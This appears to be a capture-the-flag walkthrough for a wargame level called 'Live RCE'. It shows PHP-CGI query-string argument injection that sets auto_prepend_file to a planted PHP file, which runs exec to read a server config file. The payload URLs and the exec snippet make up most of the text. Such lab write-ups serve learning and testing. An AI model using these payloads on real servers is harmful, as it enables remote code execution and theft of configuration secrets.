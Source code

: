 ## Level 20 (Live RCE)
 
 - First, we search for vulnerabilities and exploit the security loophole of the website with this url : 
 
     `http://rce.warchall.net/?-s`
 
 - Next, we go to PuTTY to create a PHP file in /var/tmp  `cd /var/tmp`. Personally, I named it fichier.php `touch fichier.php`.
 - In this file, we will put the following code:
```
<?php 
exec("cat /home/level/20_live_rce/config.php", $out); 
print_r($out);
?>
```
 - Afterwards, we exploit the PHP configuration parameters on the server using :
 

       `https://rce.warchall.net/?-dallow%20url%20include=On+-dauto%20prepend%20file=/.../fichier.php=-n`

 - We finish by encoding the file with:
 

       `https://rce.warchall.net/index.php?-dsafe_mode%3dOff+-ddisable_functions%3dNULL+-dallow_url_fopen%3dOn+-dallow_url_include%3dOn+-dauto_prepend_file%3d/var/tmp/fichier.php`

 - Inspect the source code to find the solution
